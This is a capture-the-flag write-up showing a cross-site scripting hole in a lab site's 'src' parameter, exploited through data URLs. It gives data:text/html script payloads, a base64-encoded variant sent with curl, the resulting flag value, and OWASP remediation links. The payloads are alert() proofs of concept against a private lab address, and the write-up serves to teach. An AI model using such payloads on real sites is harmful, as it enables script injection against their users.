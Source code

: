 # Cross Site Scripting (XSS) - Data URLs

In the first section of the home page, an image redirect to [the location](http://192.168.56.101/?page=media&src=nsa) where an `object` tag specifies the URL of NSA logotype, via `data` attribute.

The value of `data` attribute change accordingly the value GET parameter `src` in the URL.

Using special format, called [Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs), in `src` allow to embed small inline data in HTML document.

<details>
<summary>Embed a text file</summary>

```
data:text/html,<h1 style="font-size:75px; background-color:red">Hello World!</h1>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857428-9feaa61f-fc22-4b38-9168-dcad62fd70fa.png">
</details>

<details>
<summary>Embed an image</summary>

```
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGQAAABkCAYAAABw4pVUAAAAo0lEQVR42u3RAQ0AAAjDMO5fNCCDkG4SmupdZwoQIAICRECACAgQAQECBIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACAgQIEAEBIiAABGQ7w2x48edS3GF7AAAAABJRU5ErkJggg==
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207856826-f0abe6b6-e29e-4c57-bf88-ef8dcb737ca0.png">
</details>

<details>
<summary>Embed a scipt</summary>

```
data:text/html,<script>alert('42 - The answer to life, the universe and everything')</script>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857154-5443b8d2-b45c-4fc0-a0e6-6b828ffcab8a.png">

</details>


By tring base64 encoded string for the `src` paramter, with [appropriate syntax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs#syntax), the following address will give the flag

```
$ echo -n '<script>alert('hi');</script>' | base64
PHNjcmlwdD5hbGVydChoaSk7PC9zY3JpcHQ+

$ curl http://{IP_ADDR}/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGknKTs8L3NjcmlwdD4\=
[...]
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
[...]
```

# Remediation
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/
